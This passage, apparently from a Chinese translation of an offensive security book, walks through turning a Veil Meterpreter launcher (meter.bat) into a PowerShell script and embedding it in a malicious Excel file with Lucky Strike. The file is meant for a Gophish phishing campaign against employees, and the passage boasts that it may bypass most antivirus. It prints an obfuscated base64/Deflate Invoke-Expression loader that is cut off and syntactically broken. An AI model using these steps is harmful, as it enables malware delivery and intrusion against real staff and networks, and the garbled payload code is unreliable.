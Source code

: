 ![](./media/image17.png){width="5.718961067366579in"
height="2.1296292650918636in"}

> 好的，现在要将此有效负载包含在Excel文件中，我们需要手动深入了解代码。如果打开生成的meter.bat文件，您将看到其唯一目的是找出目标的系统架构并启动相应的PowerShell版本（x86或x64）。

![](./media/image18.png){width="5.753018372703412in"
height="0.5092596237970254in"}

> 您可能已经注意到，meter.bat文件也以内联方式调用PS脚本，但Veil并没有对命令进行编码。我们可以在VBA
> [25]中转换这个架构验证例程，然后借用meter.bat文件中的命令，这样就可以了。
>
> 如果我们想使用Lucky
> Strike，我们可以假设Excel最有可能在32位进程中运行（大部分时间都是安全的选择），选择适当的代码位，通过移除这两个反斜杠字符""，然后将其保存到名为meter.ps1的文件中：

```powershell
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

> 我们执行此meter_psh.ps1文件以检查它是否仍能正常工作。现在我们有一个普通的PowerShell文件，我们可以使用Lucky
> Strike生成适当的恶意Excel文件。

### 摘要

> 总而言之，我们使用Gophish建立了一个电子邮件发送平台，收集了一些员工来作为目标，并准备了两个功能强大的Excel恶意软件变种[26]，可能会绕过大多数防病毒保护。
>
> 关于这个攻击载体的美妙之处在于，如果它成功（而且我们实际上只需要数百名员工中的一名受害者），我们就会进入Greenbox！

![](./media/image19.jpeg){width="5.65740813648294in"
height="3.74126968503937in"}
